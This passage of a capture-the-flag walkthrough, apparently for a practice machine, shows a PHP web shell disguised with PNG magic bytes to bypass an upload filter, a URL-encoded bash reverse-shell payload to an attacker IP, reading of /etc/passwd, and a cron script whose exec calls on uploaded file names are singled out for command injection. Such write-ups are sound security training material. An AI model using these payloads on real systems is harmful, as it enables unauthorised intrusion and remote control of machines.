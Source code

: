 Then we need to do something.
```
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mine_shell.php.png
cat shell.php.png >> mine_shell.php.png
```
Then we can successfully upload it and we get a web-shell.
We need to switch to reverse shell.
```
payload:
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.6%2F443%200%3E%261%22
```

Then by check `/etc/passwd` and we can find a valid user `guly`
`guly:x:1000:1000:guly:/home/guly:/bin/bash`

2,shell as guly
We need to enumerate the existed configs and database to find the valid credit.
In the `guly` directory, there are 2 files interesting:
```
check_attack.php  crontab.guly

check_attack.php

<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}
?>

crontab.guly
*/3 * * * * php /home/guly/check_attack.php
```
`crontab.guly` shows a config that would run php `/home/guly/check_attack.php`every 3 minutes.
`check_attack.php` is a php script that processes files in the uploads directory.
And we find the `exec` method so we hope it can help us to exploit it.
```
exec("rm -f $logpath");
```